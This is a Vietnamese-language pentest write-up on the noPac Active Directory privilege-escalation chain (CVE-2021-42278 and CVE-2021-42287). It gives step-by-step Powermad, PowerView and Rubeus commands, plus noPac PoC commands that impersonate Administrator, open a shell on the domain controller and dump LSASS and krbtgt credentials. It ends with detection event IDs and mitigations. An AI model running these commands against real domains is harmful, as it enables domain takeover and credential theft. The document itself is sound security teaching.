## Tổng quan

**noPac** hay  **samaccountname spoofing** là tên gọi khi chain 2 lỗ hổng [CVE-2021-42278](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-42278) và [CVE-2021-42287](https://support.microsoft.com/en-us/topic/kb5008380-authentication-updates-cve-2021-42287-9dafac11-e0d0-4cb8-959a-143bd0201041) lại với nhau để có thể leo thang đặc quyền từ domain user lên domain admin trong Active Directory. 
### CVE-2021-42278 
Lỗ hổng cho phép kẻ tấn công giả mạo Domain Controller bằng cách sửa đổi thuộc tính sAMAccountName trên computer account. Trong AD, sAMAccountName là thuộc tính được sử dụng để xác định computer account name và thường được kết thúc bằng ký hiệu “$”. Tuy nhiên, người dùng có thể truy cập và chỉnh sửa thuộc tính này. Có thể sửa thủ công `sAMAccountName` bằng cách :
- Sử dụng công cụ ADSI Edit được tích hợp sẵn trên Windows.



- Sử dụng command với [Powermad](https://github.com/Kevin-Robertson/Powermad)
	
```powershell
Set-MachineAccountAttribute -MachineAccount TestSPN -Value "IDC1" -Attribute samaccountname -Verbose
```


*Nếu dùng module powershell mặc định thì nó vẫn sẽ tự động thêm `$` vào cuối*


### CVE-2021-42287 
Lỗ hổng bypass PAC trong quá trình xử lý KDC. Khi request vé TGS, nếu computer name account được request không được tìm thấy, KDC sẽ tự động thêm ký tự "$" vào cuối tên để tìm tài khoản phù hợp nhất.

## Điều kiện khai thác
Để khai thác thành công noPac, yêu cầu các điều kiện sau:
- Domain Controller chưa cập nhật bản vá KB5008380 hoặc KB5008602.
- Tài khoản Domain User hợp lệ
- Tài khoản Domain User được cấp quyền SeMachineAccountPrivilege 
- Thuộc tính ms-ds-machineaccountquota có giá trị lớn hơn 0. (*ms-ds-machineaccountquota là một thuộc tính của Domain Controller được sử dụng để giới hạn số lượng computer account mà một domain user hoặc một group có thể tạo ra, mặc định là 10*).


## Các bước khai thác



- Bước 1: Tạo tài khoản máy trong domain
- Bước 2: Xoá SPN từ tài khoản máy vừa tạo
- Bước 3: Thay đổi tên tài khoản máy trong thuộc tính sAMAccountName thành tên tài khoản máy Domain Controller không có ký hiệu “$”.
- Bước 4: Yêu cầu vé xác thực (TGT) cho tài khoản vừa thay đổi
- Bước 5: Khôi phục thuộc tính “ sAMAccountName ” về giá trị ban đầu hoặc bất kỳ giá trị nào khác.
- Bước 6: Yêu cầu vé dịch vụ (TGS) bằng S4U2self với vé TGT đã xác thực ở bước 4. S4U2self là một tính năng trong giao thức Kerberos cho phép một dịch vụ thay mặt người dùng nhận được một vé dịch vụ của chính họ.
- Bước 7: Nhận vé TGS với quyền của Domain Admin

## Manual attack

- **Bước 1:** Tạo một computer account bằng mô đun [Powermand](https://github.com/Kevin-Robertson/Powermad)

```powershell
New-MachineAccount -MachineAccount nopacex -Domain hanx.local -DomainController hanx.local -Verbose
```


- **Bước 2:** Xoá SPN từ computer account vừa tạo bằng mô đun [PowerView](https://github.com/ZeroDayLab/PowerSploit/blob/master/Recon/PowerView.ps1)
```powershell
Set-DomainObject "CN=nopacex,CN=Computers,DC=hanx,DC=local" -Clear 'serviceprincipalname' -Verbose
```


- **Bước 3:** Thay đổi computer account name trong thuộc tính sAMAccountName thành Domain Controller computer account name không có ký hiệu “$”.

```powershell
Set-MachineAccountAttribute -MachineAccount nopacex -Value "WIN-C5I7RMM47RM" -Attribute samaccountname -Verbose
```


- **Bước 4:** Yêu cầu vé xác thực (TGT) cho computer account vừa thay đổi bằng công cụ Rubeus.

```powershell
Rubeus.exe asktgt /user:WIN-C5I7RMM47RM /password:123@qaz /domain:hanx.local /dc:WIN-C5I7RMM47RM.hanx.local /nowrap
```



- **Bước 5**: Khôi phục thuộc tính “ sAMAccountName ” về giá trị ban đầu.

```powershell 
Set-MachineAccountAttribute -MachineAccount nopacex -Value "nopacex$" -Attribute samaccountname -Verbose
```


- **Bước 6:** Yêu cầu vé TGS bằng phương pháp S4U2self với vé TGT đã xác thực ở bước 4.

```cmd
Rubeus.exe s4u /self /impersonateuser:"Administrator" /altservice:"cifs/WIN-C5I7RMM47RM.hanx.local" /dc:"WIN-C5I7RMM47RM.hanx.local" /ptt /ticket:[Base64 TGT]
```



- Bước 7: Thực thi các lệnh từ xa trên Domain Controller bằng vé TGS giả mạo với quyền domain administrator


# Auto attack
[**Python Poc**](https://github.com/Ridter/noPac)
[**Exe Poc**](https://github.com/cube0x0/noPac)
- Detect :
```bash
python3 scanner.py hanx.local/nopac:'123@qaz' -dc-ip 192.168.160.100 -use-ldap
```


- GetST :
```bash
python3 noPac.py hanx.local/nopac:'123@qaz' -dc-ip 192.168.160.100 -use-ldap 
```



- Get shell
```bash
python3 noPac.py hanx.local/nopac:'123@qaz' -dc-ip 192.168.160.100 -use-ldap -dc-host win-c5i7rmm47rm -shell --impersonate administrator 
```



- Dump LSASS
```bash
python3 noPac.py hanx.local/nopac:'123@qaz' -dc-ip 192.168.160.100 -use-ldap -dc-host win-c5i7rmm47rm -dump --impersonate administrator
python3 noPac.py hanx.local/nopac:'123@qaz' -dc-ip 192.168.160.100 -use-ldap -dc-host win-c5i7rmm47rm -dump -just-dc-user hanx/krbtgt --impersonate administrator
```



## Những logs được ghi lại trong quá trình attack

Việc khai thác noPac sẽ tạo ra các bản ghi nhật ký sau:
- Sau khi tạo computer account, Event 4741 sẽ hiển thị thông tin chi tiết về user đã tạo tài khoản và thông tin về tài khoản mới được tạo.


- Xóa SPN sẽ tạo ra Event 4742. Service principal names sẽ hiển thị dưới dạng `<value not set>` khi SPN bị xóa.



- Đổi tên tài khoản máy sẽ tạo ra Event 4742 và 4781. Event 4781 nêu chi tiết tên tài khoản cũ và mới. Tên tài khoản cũ bao gồm $ và tên tài khoản mới thì không.


- Request vé Kerberos TGT sẽ kích hoạt Event 4768 với sAMAccountName giả mạo (tài khoản máy không có đuôi $).



- Domain Controller  ghi lại Event 4769 khi vé TGS được yêu cầu. Tên dịch vụ chứa $ ở cuối và tên tài khoản thì không.



## Mitigation

Cách tốt nhất để phòng chống noPac là cập nhật các phiên bản mới nhất của Windows hoặc cập nhật thủ công bản vá KB5008602 hoặc KB5008380. Tuy nhiên trong  những hệ thống lớn gồm nhiều dịch vụ liên kết và chạy song song thì việc cập nhật ngay lập tức rất khó để không ảnh hưởng đến các dịch vụ khác và cần lên kế hoạch rõ ràng. Do đó có thể khắc phục tạm thời noPac bằng cách:
- Cấu hình giá trị của thuộc tính ms-ds-machineaccountquota bằng 0, giúp ngăn chặn các tài khoản đặc quyền thấp  có thể tạo machine accounts.
- Xoá “Authenticated Users” khỏi quyền SeMachineAccountPrivilege và thêm Domain Admins hoặc các domain users được tin tưởng.

## References

- [https://www.tarlogic.com/blog/how-kerberos-works/](https://www.tarlogic.com/blog/how-kerberos-works/)
- [https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html)
- [https://pentestlab.blog/2022/01/10/domain-escalation-samaccountname-spoofing/](https://pentestlab.blog/2022/01/10/domain-escalation-samaccountname-spoofing/)
- [https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware](https://www.secureworks.com/blog/nopac-a-tale-of-two-vulnerabilities-that-could-end-in-ransomware)
- [https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/](https://cloudbrothers.info/en/exploit-kerberos-samaccountname-spoofing/)
- [https://github.com/Ridter/noPac](https://github.com/Ridter/noPac)
- [https://github.com/cube0x0/noPac](https://github.com/cube0x0/noPac)
- [https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-42278](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-42278)
- https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2021-42287